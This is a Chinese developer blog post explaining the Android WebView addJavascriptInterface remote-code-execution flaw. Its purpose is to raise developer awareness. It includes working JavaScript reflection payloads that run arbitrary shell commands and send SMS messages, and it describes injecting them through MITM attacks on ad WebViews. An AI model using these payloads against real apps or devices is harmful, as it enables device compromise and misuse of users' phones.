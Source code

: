 去年的某一天，收到客户的反馈说我们的产品在他的手机上不工作。
看了一下日志发现是WebView中JavaScript调用的某个Java方法找不到，通过报错信息搜索后得知：

>Caution: If you've set your targetSdkVersion to 17 or higher, you must add the @JavascriptInterface annotation to any method that you want available your web page code (the method must also be public). If you do not provide the annotation, then the method will not accessible by your web page when running on Android 4.2 or higher.

### 问题
原来是API Level 17后，只会把带有@JavaScriptInterface的方法暴露给JavaScript，因为我的方法都没加这个Annotation，自然就无法调用了。

>Annotation that allows exposing methods to JavaScript. Starting from API level JELLY_BEAN_MR1 and above, only methods explicitly marked with this annotation are available to the Javascript code. See addJavascriptInterface(Object, String) for more information about it.

再看addJavaScriptInterface方法的文档：
>IMPORTANT:
This method can be used to allow JavaScript to control the host application. This is a powerful feature, but also presents a security risk for applications targeted to API level JELLY_BEAN or below, because JavaScript could use reflection to access an injected object's public fields. Use of this method in a WebView containing untrusted content could allow an attacker to manipulate the host application in unintended ways, executing Java code with the permissions of the host application. Use extreme care when using this method in a WebView which could contain untrusted content.

大概是说如果你访问了包括恶意内容的页面，攻击者会得到与应用相同的权限，通过反射来做一些你意想不到的事情。
反射？听起来很高级，到底有多危险？

### 原理
因为Java中所有的类都继承自java.lang.Object，而Object类中有一个方法是getClass()，拿到Class后就可以forName加载任意Class进行反射了。
能做什么呢？不妨来研究下。

### 应用

* 执行任意命令：

```JavaScript
function execute(cmd){
     return window.jsInterface.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"Hello Android!\” > /mnt/sdcard/test.txt']);
```

* 发送短信：

```
var smsManager = window.jsInterface.getClass().forName('android.telephony.SmsManager').getMethod('getDefault', null).invoke(null, null);
smsManager.sendTextMessage('133xxxxxxxx’, null, 'hello', null, null);
```

当然，攻击成功的前提是你的应用具有相应权限，比如上例中需要`WRITE_EXTERNAL_STORAGE`和`SEND_SMS`的权限。

### 扩展
这个漏洞要得到利用，你既要控制web内容，又需要应用本身具有相应权限，看起来没什么大不了的。真的是这样吗？   
很多免费应用都会集成广告平台SDK以在应用中显示广告条增加收入。这个广告条通常是用WebView实现的，而且拥有比较多的权限。如果恶意攻击者使用[dSploit](http://dsploit.net/)发起MITM攻击，篡改服务器返回的内容，插入恶意JavaScript代码，便可以轻易操纵你的手机。

往往这里一个小漏洞，那里一个小漏洞，两个小漏洞结合起来利用就能达到意想不到的效果。
作为开发者，我们要关注开发中的任何一个细节，尽量避免给用户带来威胁。   

---
文中代码：[Demo](https://github.com/hkliya/JavascriptInterfaceDemo)
参考资料：

* [WebView addJavascriptInterface Remote Code Execution](https://labs.mwrinfosecurity.com/advisories/2013/09/24/webview-addjavascriptinterface-remote-code-execution/)
* [addJavaScriptInterface.py](https://github.com/mwrlabs/drozer/blob/bcadf5c3fd08c4becf84ed34302a41d7b5e9db63/src/drozer/modules/exploit/mitm/addJavaScriptInterface.py)

